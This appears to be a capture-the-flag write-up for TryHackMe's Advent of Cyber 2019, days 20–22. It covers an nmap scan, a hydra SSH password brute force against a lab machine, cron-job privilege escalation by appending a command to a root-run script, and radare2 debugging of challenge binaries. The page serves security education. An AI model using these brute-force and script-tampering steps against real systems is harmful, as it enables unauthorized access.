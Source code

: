 # [Advent of Cyber 1 [2019]](https://tryhackme.com/room/25daysofchristmas)

> Get started with Cyber Security in 25 Days - Learn the basics by doing a new, beginner friendly security challenge every day leading up to Christmas.

## Day 20: Cronjob Privilege Escalation

scan the machine

```
nmap -sS -sV -p4000-5000 -T4 10.10.168.154
```

![image](https://user-images.githubusercontent.com/90561566/210505078-34612815-db24-430a-b85a-2afca0aa917a.png)

crack sam's password

```
hydra -l sam -P /usr/share/wordlists/rockyou.txt ssh://10.10.168.154 -s 4567 -V -f
```

![image](https://user-images.githubusercontent.com/90561566/210505372-7d923460-9d97-4c3f-89a1-66d24d85689b.png)

```
ssh sam@10.10.168.154 -p 4567
chocolate
```

![image](https://user-images.githubusercontent.com/90561566/210505815-93ffacf7-211f-447f-b610-50d01fde038d.png)

normally, we can check cron jobs with

```
crontab -l
cat /etc/crontab
```

nothing much, we have stuck when enumerating this machine

but i found a scripts folder by root at /home

![image](https://user-images.githubusercontent.com/90561566/210506371-c08ce18f-6c29-4aa0-85d9-b69909df1434.png)

it has a clean_up.sh owned by ubuntu

![image](https://user-images.githubusercontent.com/90561566/210506614-93215787-2e09-402e-8157-e7a43e5aabc6.png)

we know it maybe the file is running on crontabs

```
echo 'chmod +r /home/ubuntu/flag2.txt' >> clean_up.sh
```

wait about 1 min

![image](https://user-images.githubusercontent.com/90561566/210507393-cc083614-c760-4f80-893f-96b9027fe261.png)

Answer

![image](https://user-images.githubusercontent.com/90561566/210507459-c302be2a-4db0-45ad-85d0-187be4e637a9.png)

## Day 21: Reverse Elf-ineering

there are 2 linux execute files

![image](https://user-images.githubusercontent.com/90561566/210509592-2e9d69c4-b4e1-4605-9365-3d6907264525.png)

install r2

```
git clone https://github.com/radare/radare2
cd radare2
sys/install.sh
```

open up the program in radare2 debugging mode

```
r2 -d challenge1
e asm.syntax=intel
```

analy the program

```
aaaa
afl
```

there are a lot of functions

![image](https://user-images.githubusercontent.com/90561566/210511264-f82f7cb5-699b-49fc-8727-e0b7d857b465.png)

look at main function

```
pdf @main
```

![image](https://user-images.githubusercontent.com/90561566/210511437-9f169400-68fe-49ad-ba87-5ac39b1983e8.png)

The first question asks us to find the value of `local_ch` (which is referred to as `var_ch` in Intel syntax)

So set a breakpoint here and we'll have a look at it when we run the program:

```
db 0x00400b51
```

The next question asks us about the value stored in the `eax` register when the `imul` (signed multiplication) instruction is used. 

```
db 0x00400b62
```

Finally we want to know the value stored in `var_4h` before eax is set to 0 (which happens in the third last line of the function)

```
db 0x00400b69
```

To run the program we use `dc`, which will tell us that we've stopped at a breakpoint

Use `pdf @main` and we can see that the current instruction is highlighted

look at some name of these functions

![image](https://user-images.githubusercontent.com/90561566/210512730-6de52aed-af33-4633-af84-4ad5e2c40f5f.png)

view `var_ch` variable

```
px @rbp-0xc
```

![image](https://user-images.githubusercontent.com/90561566/210513579-ce19fd30-a024-43b7-bf1f-4bfd03aa4e4b.png)

Move one line foward with the `ds` command then look at the value again

![image](https://user-images.githubusercontent.com/90561566/210513633-bfbbba44-3a12-41a4-98ea-add44207fce7.png)

Let's continue the execution `dc` and take a look at the next question

```
dc
pdf @main
```

use `ds` to step one line forward then look at the value of eax after `eax` is multiplied by `var_8h`

remember that as `eax` is a register rather than a memory location, we look at it by querying the register values with the `dr` command

![image](https://user-images.githubusercontent.com/90561566/210514667-b10cdf57-8c2b-4a28-a831-4f27e481c903.png)

continuous

```
dc
pdf @main
```

```
px @rbp-0x4
```

![image](https://user-images.githubusercontent.com/90561566/210515211-9e609e25-d06f-4c7c-9095-9e4882e33fb7.png)

Answer

![image](https://user-images.githubusercontent.com/90561566/210515303-c3359fc5-a40c-4369-8699-d00ea7295dfc.png)

## Day 22: If Santa, Then Christmas

they give us 3 files as follow

![image](https://user-images.githubusercontent.com/90561566/210720238-eeaf8cd3-e72d-4ab3-b8ce-169e4562c04b.png)

start with if2

```
r2 -d if2
aaaa
afl
```

search for main function

![image](https://user-images.githubusercontent.com/90561566/210721406-10adb969-1ab2-41b9-9fd4-a2340fbc04bd.png)

```
pdf @main
```

![image](https://user-images.githubusercontent.com/90561566/210721522-243ffa39-b68c-4d26-9c89-3c16baf44145.png)

































